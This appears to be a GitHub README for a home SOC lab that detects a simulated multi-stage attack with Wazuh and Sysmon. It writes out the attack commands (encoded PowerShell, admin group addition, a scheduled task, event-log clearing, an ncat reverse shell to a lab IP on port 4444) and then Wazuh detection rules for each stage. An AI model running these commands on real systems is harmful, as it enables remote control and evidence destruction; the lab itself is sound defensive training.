




# Multi-Stage Cyber Attack Detection Using Wazuh SIEM and Sysmon

```text
Project Type: SOC Detection Engineering Lab
Framework: MITRE ATT&CK
Focus: Attack Simulation • SIEM Detection • Incident Investigation
```

---

# Table of Contents

1. [Project Overview](#project-overview)
2. [Lab Architecture](#lab-architecture)
3. [Telemetry Collection](#telemetry-collection)
4. [Attack Simulation](#attack-simulation)
5. [Stage 1 – Initial Access](#stage-1--initial-access)
6. [Stage 2 – Execution](#stage-2--execution)
7. [Stage 3 – Persistence](#stage-3--persistence)
8. [Stage 4 – Defense Evasion](#stage-4--defense-evasion)
9. [Stage 5 – Command and Control](#stage-5--command-and-control)
10. [Detection Engineering](#detection-engineering)
11. [Correlation Rules](#correlation-rules)
12. [Threat Hunting Queries](#threat-hunting-queries)
13. [Indicators of Compromise (IOCs)](#indicators-of-compromise-iocs)
14. [Detection Coverage Matrix](#detection-coverage-matrix)
15. [SOC Investigation Workflow](#soc-investigation-workflow)
16. [Incident Response Actions](#incident-response-actions)
17. [Technologies Used](#technologies-used)
18. [Skills Demonstrated](#skills-demonstrated)

---

# Project Overview

This project demonstrates **end-to-end detection of a multi-stage cyber attack** using **Wazuh** and **Sysmon**.

It simulates a realistic adversary attack chain and shows how a **Security Operations Center (SOC)** detects, correlates, and investigates malicious activity using centralized logging and detection engineering. The attack lifecycle follows the **MITRE ATT&CK** framework.

Attack stages simulated:

* Initial Access
* Execution
* Persistence
* Defense Evasion
* Command and Control

---

# Lab Architecture

The environment simulates attacker, victim, and monitoring infrastructure.

```text
Kali Linux (Attacker)
        │
        │ Attack Simulation
        ▼
Windows 11 Victim
(Wazuh Agent)
        │
        │ Endpoint Logs
        ▼
Wazuh Manager
        │
        ▼
Wazuh Dashboard
```

### Architecture Screenshot


*(Insert diagram showing attacker, victim, and Wazuh manager)*

---

# Telemetry Collection

Sysmon provides detailed endpoint telemetry, including process creation and network connection events. Logs are forwarded to Wazuh for analysis.

**Key Sysmon Event Types**

| Event ID | Description           |
| -------- | --------------------- |
| 1        | Process Creation      |
| 3        | Network Connection    |
| 7        | Image Loaded          |
| 10       | Process Access        |
| 13       | Registry Modification |
| 22       | DNS Query             |

### Sysmon Logging Screenshot


---

# Attack Simulation

The simulated adversary executes a multi-stage attack chain to replicate real-world intrusion behavior.

---

# Stage 1 – Initial Access

### Attack Command

```powershell
powershell -enc VwByAGkAdABlAC0ATwB1AHQAcAB1AHQAIAAiAEMAbwBtAHAAcgBvAG0AaQBzAGUAZAAiAA==
```

### Description

Simulates PowerShell malware execution using Base64 encoding. Adversaries frequently employ obfuscation to bypass security controls and gain initial access.

**MITRE Technique:**

```
T1059 – Command and Scripting Interpreter
```

### Detection

* Process creation logging
* Command-line inspection (`-enc` detection)



---

# Stage 2 – Execution

### Commands

```text
net localgroup administrators /add
```

**Telemetry Source:** Sysmon Event ID 1

### Screenshot




---

# Stage 3 – Persistence

### Command

```text
schtasks /create /sc minute /tn updater /tr malware.exe
```

**MITRE Technique:** T1053 – Scheduled Task

### Screenshot


---

# Stage 4 – Defense Evasion

The attacker attempts to **erase Windows event logs** to reduce visibility.

### Command Executed

```powershell
wevtutil cl Security
```

### Objective

* Clear Security Event Log records for authentication events, privilege usage, and other critical activities.

### MITRE ATT&CK Mapping

* **Technique:** T1562 – Impair Defenses
* **Sub-technique:** T1562.002 – Disable Windows Event Logging
* **Also Related:** T1070.001 – Indicator Removal on Host

### Expected Telemetry

**Windows Event Logs / PowerShell**

* Event ID 1102 → Audit log cleared
* Event ID 104 → System log cleared
* Event ID 4104 → Script block logging captures `wevtutil cl Security` if enabled

**Process Creation**

* Image: `wevtutil.exe`
* CommandLine: `wevtutil cl Security`

### Screenshot


---

# Stage 5 – Command and Control (C2)

The attacker establishes a **reverse shell** using **Ncat**, enabling remote command execution via TCP.

### Commands

* **Attacker (Kali):**

```bash
nc -lvnp 4444
```

* **Victim (Windows):**

```powershell
& "C:\Program Files (x86)\Nmap\ncat.exe" 192.168.255.128 4444 --exec cmd.exe
```

**MITRE ATT&CK Mapping:** T1071, T1059.003, T1105

**Expected Telemetry**

* Process creation: `ncat.exe` → `cmd.exe`
* Outbound TCP connection: `192.168.255.128:4444`

### Screenshot


---

# Detection Engineering

### Encoded PowerShell Detection

```xml
<rule id="100100" level="12">
  <if_sid>61603</if_sid> <field name="win.eventdata.commandLine" type="pcre2">(?i)-enc|-encodedcommand|-e\b</field>
  <description>Encoded PowerShell command detected: $(win.eventdata.commandLine)</description>
  <group>sysmon_event1,powershell_execution,</group>
</rule>
```
### Execution

```xml
<rule id="100102" level="12">
  <if_sid>61603</if_sid>
  <field name="win.eventdata.commandLine" type="pcre2">(?i)net(\d)?\.exe\s+localgroup\s+administrators\s+.*\s+/add</field>
  <description>Critical: User added to Local Administrators group via Net.exe</description>
  <group>sysmon_event1,privilege_escalation,persistence</group>
</rule>
```

### Scheduled Task Persistence Detection

```xml
<rule id="100104" level="12">
  <if_sid>61603</if_sid>
  <field name="win.eventdata.commandLine" type="pcre2">(?i)schtasks(\.exe)?\s+/create\s+.*\/sc\s+minute</field>
  <description>Suspicious Scheduled Task Creation: High-frequency persistence detected</description>
  <group>sysmon_event1,persistence,t1053.005</group>
</rule>
```
```xml
<rule id="100105" level="10">
  <if_sid>60103</if_sid> <field name="win.system.eventID">^4698$</field>
  <field name="win.eventdata.taskName" type="pcre2">(?i)updater|bypass|sys|admin</field>
  <description>New Scheduled Task Created: $(win.eventdata.taskName)</description>
  <group>windows,persistence,scheduled_task</group>
</rule>
```

### Defense Evasion Detection

```xml
<rule id="100106" level="12">
  <if_sid>61603</if_sid>
  <field name="win.eventdata.commandLine" type="pcre2">(?i)wevtutil(\.exe)?\s+cl\s+(Security|System|Application|Setup)</field>
  <description>Critical: Windows Event Log Cleared via wevtutil (Defense Evasion)</description>
  <group>sysmon_event1,defense_evasion,t1070.001</group>
</rule>
```

```xml
<rule id="100107" level="13">
  <if_sid>60103</if_sid>
  <field name="win.system.eventID">^1102$|^104$</field>
  <description>Alert: A Windows Event Log was cleared ($(win.eventdata.accountName))</description>
  <group>windows,defense_evasion,audit_log_cleared</group>
</rule>
```

### Command and control

```xml
<rule id="100108" level="14">
  <if_sid>61603</if_sid>
  <field name="win.eventdata.commandLine" type="pcre2">(?i)ncat(\.exe)?\s+.*\s+(--exec|-e)\s+cmd(\.exe)?</field>
  <description>Critical: Reverse Shell detected via Ncat (Remote Command Execution)</description>
  <group>sysmon_event1,command_and_control,t1059.003</group>
</rule>
```

```xml
<rule id="100109" level="10">
  <if_sid>61605</if_sid> <field name="win.eventdata.destinationPort">^4444$|^5555$|^8888$|^9999$</field>
  <description>Suspicious outbound network connection on common shell port: $(win.eventdata.destinationPort)</description>
  <group>sysmon_event3,network_connection,c2</group>
</rule>
```

---

# Correlation Rules

```xml
<rule id="100200" level="15">
  <if_matched_sid>100100, 100101, 100102, 100104, 100108</if_matched_sid>
  <same_agent />
  <frequency>3</frequency>
  <timeframe>3600</timeframe>
  <description>Composite Alert: Multiple Stage Attack Pattern Detected on $(hostname)</description>
  <group>correlation,attack_progression</group>
</rule>
```

---

# Threat Hunting Queries

* **PowerShell Abuse**

```text
powershell AND ("-enc" OR "Invoke-WebRequest")
```

* **Reverse Shell Hunting**

```text
destination_port:4444
```

---

# Indicators of Compromise (IOCs)

| IOC Type | Indicator            | Description                         |
| -------- | -------------------- | ----------------------------------- |
| Process  | powershell.exe -enc  | Encoded PowerShell command          |
| Command  | schtasks /create     | Persistence via scheduled task      |
| Command  | wevtutil cl Security | Defense evasion / log clearing      |
| Network  | Port 4444            | Reverse shell communication         |
| Tool     | nc.exe               | Netcat used for command and control |

---

# Detection Logic Explanation

1. Suspicious PowerShell command execution: `powershell AND "-enc"`
2. Persistence detection: `schtasks /create`
3. Defense evasion: `wevtutil cl Security`

---

# SOC Investigation Workflow

| Time  | Event                       |
| ----- | --------------------------- |
| 10:12 | Encoded PowerShell executed |
| 10:13 | Recon commands executed     |
| 10:14 | Persistence created         |
| 10:15 | Reverse shell established   |
| 10:16 | Defense evasion executed    |

---

# Incident Response Actions

1. Isolate compromised host
2. Terminate malicious processes
3. Remove persistence mechanisms
4. Reset compromised credentials

**Investigation Commands**

```text
tasklist /v
netstat -ano
```

---

# Technologies Used

* Wazuh
* Sysmon
* Kali Linux
* Windows 11
* Netcat

---

# Skills Demonstrated

* SOC detection engineering
* Threat hunting
* Incident investigation
* MITRE ATT&CK mapping
* Multi-stage attack simulation

---
